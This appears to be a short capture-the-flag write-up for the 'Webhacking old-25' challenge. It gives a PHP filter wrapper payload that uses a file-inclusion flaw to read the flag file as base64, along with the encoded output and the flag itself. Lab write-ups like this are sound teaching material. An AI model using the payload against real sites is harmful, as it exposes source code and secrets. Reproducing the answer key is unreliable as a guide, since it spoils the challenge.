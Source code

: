 # Webhacking old-25 Solution

insert this payload:
`php://filter/convert.base64-encode/resource=flag`

and then you will receive the encoded flag:
```
PD9waHAKICBlY2hvICJGTEFHIGlzIGluIHRoZSBjb2RlIjsKICAkZmxhZyA9ICJGTEFHe3RoaXNfaXNfeW91cl9maXJzdF9mbGFnfSI7Cj8+Cg==
```


**Flag:** ***`FLAG{this_is_your_first_flag}`*** 

